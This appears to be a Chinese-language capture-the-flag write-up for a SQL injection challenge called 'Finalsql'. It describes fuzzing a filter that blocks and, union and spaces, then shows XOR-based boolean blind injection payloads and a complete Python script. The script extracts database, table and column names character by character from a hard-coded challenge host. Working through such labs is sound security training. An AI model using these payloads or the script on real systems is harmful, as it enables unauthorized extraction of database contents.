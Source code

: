 # Finalsql
## 考察知识点：
### 1.布尔盲注
### 2.xor注入（适用于and,or,空格，逗号的场景）

## fuzz测试：
![image](images/7BE29652E07F4944A074CA33664B8FA8Finalsql1.png)

发现and，union，空格都被过滤

没有报错界面，发现返回结果只有三种，查询回显的数据，报错ERROR!!!和被waf拦截的界面

此时可以想到布尔盲注

构造payload:`?id=0^1^0`

![image](images/15204E6D2AFB4B298E902EE8D804B797Finalsql2.png)

发现返回id=1时的界面，此时可以考虑xor注入

payload:`?id=0^(ascii(substr((database()),1,1))>99)^0`

![image](images/B5EECFDF6C53469C95B58E6D46FEBD39Finalsql3.png)

说明此时数据库名第一位ascii为103，为g。和前面的sql注入一样

构造exp：
```
# coding=utf-8
# 确定字符编码为utf-8
# python3
# author: 黑白
# 导入request模块
import requests


# 用于匹配的字符串
# dic1=' "?/+=~.,@#$%^&*()QWERTYUIOPASDFGHJKLZXCVBNM'
dic = ',0123456789abcdefghijklmnopqrstuvwxyz_'

# 请求的url
url = "http://118.25.14.40:8104/search.php?id=0^"
string = ''
for i in range(1, 100):
    for j in range(32,127):

        ##################################################################################
        # id="substr((select group_concat(schema_name) from information_schema.schemata limit 0,1),{0},1)={1}--+".format(str(i),ascii(j))
        # id = "(ascii(substr((database()),{0},1))>{1})^0".format(str(i), j)
        # F1naI1y, Flaaaaag
        # id = "(ascii(substr((select(group_concat(TABLE_NAME))from(information_schema.tables)where(table_schema)='geek'),{0},1))>{1})^0".format(str(i), j)

        id = "(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='Flaaaaag'),{0},1))>{1})^0".format(str(i), j)
        # print(id)

        # 最后请求的url=url+id
        url_get = (url + id)
        # print(url_get)
        r = requests.get(url_get)

        ########################################################################################
        if "ERROR！！！" in r.text:
            string += chr(j)
            print(string)

            break
        # print(url_get)
    # print(r.text)
print(string)

```

参考文章：

https://www.anquanke.com/post/id/160584#h3-18